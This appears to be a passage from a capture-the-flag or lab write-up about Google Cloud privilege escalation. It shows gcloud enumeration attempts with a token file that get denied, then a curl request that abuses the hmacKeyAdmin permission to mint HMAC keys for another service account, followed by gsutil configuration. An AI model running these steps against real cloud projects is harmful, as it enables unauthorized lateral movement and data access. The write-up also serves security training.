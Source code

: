 We can try accessing Cloud Functions, list buckets or list known bucket, but we don't have permissions
```
└─$ gcloud functions describe export_sales_to_gcs --region=us-central1 --access-token-file token.txt
ERROR: (gcloud.functions.describe) ResponseError: status=[403], code=[Ok], message=[Permission 'cloudfunctions.functions.get' denied on 'projects/gr-proj-1/locations/us-central1/functions/export_sales_to_gcs']
```
```
└─$ gcloud storage buckets list --project=gr-prod-2 --access-token-file token.txt
ERROR: (gcloud.storage.buckets.list) HTTPError 403: pos-inventory@gr-prod-2.iam.gserviceaccount.com does not have storage.buckets.list access to the Google Cloud project. Permission 'storage.buckets.list' denied on resource (or it may not exist). This command is authenticated with an access token from token.txt specified by the [auth/access_token_file] property.
```
```
└─$ gcloud storage ls --access-token-file token.txt gs://gr-inventory-storage
ERROR: (gcloud.storage.ls) [None] does not have permission to access b instance [gr-inventory-storage] (or it may not exist): pos-inventory@gr-prod-2.iam.gserviceaccount.com does not have storage.objects.list access to the Google Cloud Storage bucket. Permission 'storage.objects.list' denied on resource (or it may not exist). This command is authenticated with an access token from token.txt specified by the [auth/access_token_file] property.
```

Let's create HMAC keys using `storage.hmacKeyAdmin` permissions to enumerate using `inventory-storage@gr-prod-2.iam.gserviceaccount.com` account
```
└─$ curl -X POST \
  -H "Authorization: Bearer $(cat token.txt)" \
  -H "Content-Type: application/json" \
  "https://storage.googleapis.com/storage/v1/projects/gr-prod-2/hmacKeys?serviceAccountEmail=inventory-storage@gr-prod-2.iam.gserviceaccount.com"
{
  "kind": "storage#hmacKey",
  "metadata": {
    "kind": "storage#hmacKeyMetadata",
    "accessId": "GOOG1EYI3WR6YGEGRTHPEWC2NY6JVOJHX56MOSOI3GCN37VZKJIE2VFETOVM6",
    "projectId": "gr-prod-2",
    "id": "gr-prod-2/GOOG1EYI3WR6YGEGRTHPEWC2NY6JVOJHX56MOSOI3GCN37VZKJIE2VFETOVM6",
    "selfLink": "https://www.googleapis.com/storage/v1/projects/gr-prod-2/hmacKeys/GOOG1EYI3WR6YGEGRTHPEWC2NY6JVOJHX56MOSOI3GCN37VZKJIE2VFETOVM6",
    "serviceAccountEmail": "inventory-storage@gr-prod-2.iam.gserviceaccount.com",
    "etag": "YmNiZDBlMWY=",
    "state": "ACTIVE",
    "timeCreated": "2025-09-09T14:48:27.794Z",
    "updated": "2025-09-09T14:48:27.794Z"
  },
  "secret": "<REDACTED>"
}

```

Now set the keys using command below
```
└─$ gsutil config -a
<SNIP>
```
To authenticate using the keys run the command below
```
└─$ gcloud config set pass_credentials_to_gsutil false
```
